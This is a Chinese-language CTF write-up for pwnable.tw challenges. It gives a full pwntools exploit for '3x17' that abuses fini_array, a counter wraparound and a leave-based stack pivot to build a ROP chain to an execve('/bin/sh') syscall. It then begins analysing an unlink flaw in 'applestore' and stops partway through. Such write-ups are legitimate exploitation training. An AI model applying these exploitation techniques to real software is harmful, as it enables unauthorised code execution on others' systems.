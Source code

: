 怎么150分的题普遍比200分的难？

main函数里给的一次任意地址写肯定不够，不过我之前见过fini_array技巧，可以获取无限调用（可惜不是所有题目都有fini_array）

一个很大的问题是，调用的地址需要是main函数的开头，保证rbp和rsp没问题；然而main函数中有计数变量`DAT_004b9330`，仅在该变量值为1时才能触发任意地址写。即使我们能够调用main函数无限次，也没法进入触发漏洞的分支……吗？

查看汇编，发现用的是`MOVZX EAX,byte ptr [DAT_004b9330]`。这意味着256次调用后计数变量将被重置。问题自然而然就解决了。接下来的问题是，该怎么拿RCE？考虑到程序内没有控制某个函数的参数这类现成的primitive，写rop链可能是个不错的选择。但我找不到怎么泄漏栈地址

事实证明我知识都学死了。瞄了一眼 https://github.com/AravGarg/pwnable.tw/tree/master/3X17 ，等一下你为什么用了leave？

用gdb在调用fini_array的地方（0x0402988）下个断点，会发现此处的rbp值等于fini_array……我完全没注意这点。这不是一个天然的栈迁移吗？后面就很简单了。不过静态链接的去符号binary导致我不确定里面有没有system函数，幸好绕个圈子用execve的syscall也不难
```py
from pwn import *
context.arch='amd64'
p=remote("chall.pwnable.tw",10105)
def arb_write(addr,value):
    p.sendlineafter("addr:",str(addr))
    if len(value)==0x18: #不加这个分支可能会导致远程没法正常getshell
        p.sendafter("data:",value)
    else:
        p.sendlineafter("data:",value)
fini_array=0x4b40f0
function_fini=0x402960
main=0x401b6d
rdi=0x401696
rdx_rsi=0x44a309
syscall=0x471db5
leave=0x401c4b
rax=0x41e4af
arb_write(fini_array,p64(function_fini)+p64(main))
arb_write(fini_array+0x10,p64(0)+p64(rdi)+p64(fini_array+0x58))
arb_write(fini_array+0x28,p64(rdx_rsi)+p64(0)+p64(0))
arb_write(fini_array+0x40,p64(rax)+p64(constants.SYS_execve)+p64(syscall))
arb_write(fini_array+0x58,b"/bin/sh\x00")
arb_write(fini_array,p64(leave)+p64(rdi))
p.interactive()
```

## applestore

添加的各个商品之间以双向链表的形式串联在一起。delete里有熟悉的unlink操作：
```c
    if (idx == item_number) {
                    /* 双向链表，next */
      item_number = local_38[2];
      prev = local_38[3];
      if (prev != 0) {
        *(int *)(prev + 8) = item_number;
      }
      if (item_number != 0) {
        *(int *)(item_number + 0xc) = prev;
      }
    }
```
但目前并没有触发的契机。checkout处倒是很可疑：
```c
  if (total_price == 0x1c06) {
    puts("*: iPhone 8 - $1");
    asprintf(&local_24,"%s","iPhone 8");
    local_20 = 1;
    insert(&local_24);
  }
```
如果当前添加的商品价格等于0x1c06，就会额外link进一个位于栈上的变量。绝对有猫腻，先用z3凑出0x1c06：